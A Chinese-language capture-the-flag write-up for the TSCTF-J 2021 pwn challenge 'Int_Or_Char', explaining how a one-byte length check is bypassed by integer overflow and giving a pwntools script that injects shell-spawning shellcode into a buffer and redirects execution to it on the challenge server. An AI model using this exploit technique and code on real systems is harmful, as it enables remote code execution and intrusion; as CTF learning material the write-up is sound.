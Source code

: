 ```yaml
---
title: 「TSCTF-J_2021」Pwn - Int_Or_Char WriteUp
date: 2021-10-30
tags: ["TSCTF-J_2021", "Pwn", "writeup", "wp"]
authors: [nova]
---
```


## 题目

### 初步确定思路

使用`checksec`查看一下文件，发现并没有开启 NX 和 PIE，则初步考虑 ret2text 和 ret2shellcode

![checksec](https://oss.nova.gal/img/image-20211025175327904.png)

<!--truncate-->

### 分析代码

直接跳到`pwn()`函数开始看吧

```c
int pwn()
{
  char s[50]; // [esp+Dh] [ebp-3Bh] BYREF
  unsigned __int8 v2; // [esp+3Fh] [ebp-9h]

  puts("Plz input ur passwd:");
  puts("Tip: The passwd length needs to be between 4 and 8 characters");
  gets(s);
  v2 = strlen(s);
  return check(v2, s);
}
```

注意到`gets(s)`并没有限定长度，可以考虑在这里栈溢出。

来到`check(v2, s)`函数

```c
char *__cdecl check(int a1, char *src)
{
  if ( (unsigned __int8)a1 <= 3u || (unsigned __int8)a1 > 8u )
  {
    puts("So bad!");
    puts("The passwd length needs to be between 4 and 8 characters");
    exit(0);
  }
  puts("good length!");
  return strcpy(passwd_buf, src);
}
```

这里要求我们的长度`a1 > 3 && a1 <= 8`，如果是这样的话我们很明显无法构造出我们想要的 payload, 这里可以参考攻防世界的[Int_Overflow](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5058&page=1)的 writeups 提到的**整数溢出漏洞**

> 一个通俗易懂的 C 语言例子
>
> 对于一个`2字节的unsigned short int型变量`，当它的数据长度超过 2 字节时，就会溢出，使用的数据也仅仅是最后两个字节
>
> ```c
> int main()
> {
> unsigned short int var1 = 1, var2 = 257; //var1 = 0x
> if (var1 == var2)
> {
> printf("溢出");
> }
> return 0;
> }
> ```
>
> ```shell
> Out:
> 	溢出
> ```

回到我们这题， 我们的`v2`是一个`unsigned __int8`的变量, 这意味着它的取值范围只有`0~255`那如果我们传入一个长度为*256*的数据，`v2`的值其实就变成了*1*(255 + 1), 这样一来，我们传入的长度可以到`(255+4)~(255+8)`也就是*259-263*个字符。

好的，绕过了字符长度检查，接下来又应该怎么利用这个漏洞呢？

```c
char *strcpy(char *dest, const char *src);
```

这是`strcpy`的原型, 也就是说, `src`的内容会拷贝到`dest`所在的地址上，也就是题目中的`passwd_buf`处

![passwd_buf地址](https://oss.nova.gal/img/image-20211025194709773.png)

我们来看一下栈堆

![stack of check](https://oss.nova.gal/img/image-20211025192814285.png)

这里我贴上 Mark 大爹的讲解：

![性感Mark在线教学](https://oss.nova.gal/img/image-20211025192651649.png)

> 理解较浅，原因什么的按下不表，等我去把 Pwn 入门了把栈整明白了再说（）

前面提到，因为 NX 没开，所以我们的 buf 是**可执行**的，这也给了我们使用`shellcode`的条件，而且我们并没有调用系统指令的函数存在，因此必须糙一个 shellcode 出来

```python
from pwn import *

context(os='linux', arch='i386', log_level='debug') # 指定了目标是32位系统, 下文

shellcode = asm(shellcraft.sh()) # 生成shellcode
buf_addr = 0x804A060 # buf地址
# print(shellcode)

payloadd = shellcode.ljust(0x3b, b'A') + b'A'*4 + p32(buf_addr) # 我们先把shellcode左对齐到栈底，再加上4字节的数据干掉rbp, 再加上p32(buf_addr) 即可跳转到buf_addr执行，也就是我们的shellcode
payloadd = payloadd + b'A'*(262-len(payloadd)) # 补齐payload以实现整数溢出漏洞
# print(len(payloadd))
# print(payloadd)
p = remote("45.82.79.42", 11001)

p.recvuntil("characters")
p.sendline(payloadd)
p.interactive()
# 此时已经拿到了shell, 该干什么就不用多说了8

```

> 在本 WriteUp 编写之前服务器已经 shutdown 了，所以没有获得 shell 之后的过程啦

### 个人总结

虽然在做这题的时候虽然整数溢出这个很快就实现了，如何运行 shellcode 却卡了很久（原因就是到达了栈底之后还要覆盖掉 rbp 才能跳转，在这之前我完全不理解为什么）

Pwn 真是太有意思辣

## 参考资料

[ret2shellcode](https://blog.csdn.net/qq_45691294/article/details/111387593)

Mark 大爹
